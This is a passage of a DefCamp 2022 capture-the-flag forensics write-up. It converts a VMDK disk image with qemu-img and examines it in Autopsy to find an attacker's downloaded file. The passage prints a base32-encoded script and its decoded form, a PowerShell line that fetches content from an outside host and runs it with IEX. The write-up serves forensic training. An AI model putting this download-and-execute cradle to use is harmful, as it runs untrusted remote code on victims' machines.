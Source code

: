 [Open VMDK with autopsy](https://andreafortuna.org/2016/09/08/open-a-vmware-disk-image-vmdk-with-autopsy-for-forensics-analisys/)
[Stackoverflow convert vmdk](https://stackoverflow.com/questions/454899/how-to-convert-flat-raw-disk-image-to-vmdk-for-virtualbox-or-vmplayer)
[Converting images](https://docs.openstack.org/image-guide/convert-images.html)

I installed qemu on my kali and converted the image:

```
qemu-img convert -f vmdk -O raw unintended.vmdk unintended.raw
```

Now import the image into Autopsy and start looking around.

### We know that the attacker attempted to download an infected image from one of his servers before launching the attack. Can you provide the file name? (Points: 50)

First we find some files called secrets, one with Powershell extension on the Desktop and other one with txt extension on the Documents folder:

<p align="center">
  <img src="/images/writeups/DefCamp2022/Forensic/3_3_secrets.png" width="80%"/>
</p>

secrets2.ps1.txt on Desktop:

```
EBNVG6LTORSW2LSOMV2C4V3FMJBWY2LFNZ2F2JDXMVREG3DJMVXHIIB5EBHGK5ZNJ5RGUZLDOQQFG6LTORSW2LSOMV2C4V3FMJBWY2LFNZ2DWW2TPFZXIZLNFZEU6LSTORZGKYLNLUSHG5DSMVQW2IB5EASHOZLCINWGSZLOOQXE64DFNZJGKYLEFATWQ5DUOBZTULZPGUXHI33QGR2G64BONZSXIL3QL4YTGNZSNBRTK2TWGEXGU4DHE4UTWW2TPFZXIZLNFZEU6LSTORZGKYLNKJSWCZDFOJOSI43SEA6SATTFO4WU6YTKMVRXIICTPFZXIZLNFZEU6LSTORZGKYLNKJSWCZDFOIQC2YLSM52W2ZLOORGGS43UEASHG5DSMVQW2O23ON2HE2LOM5OSI4TFON2WY5DTEA6SAJDTOIXFEZLBMRKG6RLOMQUCSO2JIVMCAJDSMVZXK3DUOM5SAZDFMZSW4ZDFOI======

Base32 ->

[System.Net.WebClient]$webClient = New-Object System.Net.WebClient;[System.IO.Stream]$stream = $webClient.OpenRead('https://5.top4top.net/p_1372hc5jv1.jpg');[System.IO.StreamReader]$sr = New-Object System.IO.StreamReader -argumentList $stream;[string]$results = $sr.ReadToEnd();IEX $results; defender
```

